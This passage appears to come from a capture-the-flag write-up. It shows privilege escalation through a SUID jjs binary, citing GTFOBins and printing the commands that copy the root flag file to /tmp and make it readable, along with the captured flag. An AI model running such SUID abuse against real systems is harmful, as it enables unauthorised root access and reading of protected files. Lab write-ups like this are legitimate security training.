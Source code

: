 We can see there is a SUID bit on the binary.

As each time we want to do an pe on Linux, let's check [GTFOBins][GTFOBins]
first. There is a page for [jjs][jjs].

[GTFOBins]:https://gtfobins.github.io/
[jjs]:https://gtfobins.github.io/gtfobins/jjs/#suid

So using the SUID pe payload we found on [GTFOBins][GTFOBins], we can elevate
our privileges to root, and use this to read the root flag.

```
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /root/root.txt /tmp/.cyfun/cyfun.txt').waitFor()" | jjs
$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod g+rw /tmp/.cyfun/cyfun.txt').waitFor()" | jjs
$ cat /tmp/.cyfun/cyfun.txt
8a8ef79a7a2fbb01ea81688424e9ab15
```

[nmap]:https://nmap.org/
